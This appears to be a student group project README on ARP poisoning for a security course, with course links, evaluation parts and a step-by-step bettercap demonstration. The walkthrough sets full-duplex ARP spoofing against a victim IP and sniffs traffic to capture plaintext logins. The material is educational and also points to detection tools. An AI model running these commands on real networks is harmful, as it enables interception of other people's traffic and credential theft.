 # ICS_Project_Group7

## Instruction
 - Read the WEb (1).pdf (presentation slide)
 - watch this video carefully : https://www.youtube.com/watch?v=kUQqTk3SOq8
 - Read the Question bank.
 - Slide Link : https://www.canva.com/design/DAGR1Zb3P4E/BZFX_bPtc5tb6mYZWYiNTA/view?utm_content=DAGR1Zb3P4E&utm_campaign=designshare&utm_medium=link&utm_source=editor
 - arp spoof detection:
   - XArp : https://www.youtube.com/watch?v=LqU5Z5c7JGM
   - wireshark : https://www.youtube.com/watch?v=vsBK_7DEcss
# Evaluation Parts
1) Introduction (ARP, ARP Poisoning, attack surface, attack vulnerabilities and attack anatomy)

2) Demonstration (bettercap application)

3) Attack score (Attack Tree, Common Vulnerability Scoring System)

4) Prevention and Detection (HTTPS, VPN)

## Demonstration Step by Step Command explanation

### Without using a caplet
- `ifconfig` : to find the interface of you network `wlo1` in my case.
- `bettercap -iface wlo1`  This command launches Bettercap, a network monitoring and attack tool.
  - **bettercap**: Starts the Bettercap application.
  - **-iface wlo1**: Specifies the network interface (in this case, `wlo1` for wireless) to use for capturing traffic.
- `net.probe on`  This command enables network probing in Bettercap.

  - **net.probe**: This module scans the network for live hosts and devices.
  - **on**: Activates the probing feature.


- `set arp.spoof.fullduplex true` This command configures Bettercap to enable full-duplex ARP spoofing.
  - **set**: Command used to configure options in Bettercap.
  - **arp.spoof.fullduplex**: The specific option for ARP spoofing behavior.
  - **true**: Activates full-duplex mode, allowing the attacker to intercept and manipulate traffic in both directions between two hosts.

- using `net.show` you can check the victim's IP address. It will give a table in which one column has IP address and other column has mac address and some other informations in other columns.

- `set arp.spoof.targets [Victim's IP address]` This command configures the ARP spoofing target in a tool like Bettercap.

  - **set**: Command used to configure options in Bettercap.
  - **arp.spoof.targets**: The specific option to define which IP address will be the target of the ARP spoofing attack.
  - **[Victim's IP address]**: Placeholder for the actual IP address of the device you want to spoof or target.

- `arp.spoof on` This command enables ARP spoofing in a tool like Bettercap.

  - **arp.spoof**: The feature responsible for ARP spoofing, which tricks devices on the network by sending fake ARP responses.
  - **on**: Activates ARP spoofing, allowing the attacker to begin sending spoofed ARP messages on the network.


- `set net.sniff.local true` **{Optional}** This command configures Bettercap to enable packet sniffing on the local machine.
  - **set**: Command used to configure options in Bettercap.
  - **net.sniff.local**: Option to specify whether to capture local network traffic.
  - **true**: Enables packet sniffing on the local machine, allowing the attacker to capture and inspect traffic generated by the machine running Bettercap.

- `net.sniff on` This command enables packet sniffing in Bettercap.

  - **net.sniff**: The feature responsible for capturing and analyzing network traffic.
  - **on**: Activates packet sniffing, allowing the attacker to monitor and capture all network packets passing through the interface.


**Now if victim login on website which is not secure then the username and password will appeare on you screen.**

### With using a caplet

- `bettercap -iface wlo1 -caplet spoof.cap`
